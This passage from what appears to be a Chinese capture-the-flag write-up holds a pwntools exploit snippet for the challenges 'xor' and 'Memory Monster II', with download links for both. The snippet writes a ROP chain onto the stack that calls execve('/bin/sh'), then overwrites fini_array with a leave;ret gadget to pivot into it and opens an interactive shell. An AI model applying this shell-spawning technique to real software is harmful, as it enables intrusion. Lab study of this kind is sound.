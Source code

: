 ```bash


#duan()
#布置栈上的内容为
#syscall('/bin/sh\x00',0,0)
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))

#结束程序循环，进入 ROP
write(fini_array,p64(leave_ret)+p64(ret))
'''
'''
p.interactive()
```

![](assets/1706959474-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)xor.zip (0.91 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153445-3607447e-bb54-1.zip)

![](assets/1706959474-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)Memory Monster II.zip (0.308 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153953-edeb4bd0-bb54-1.zip)
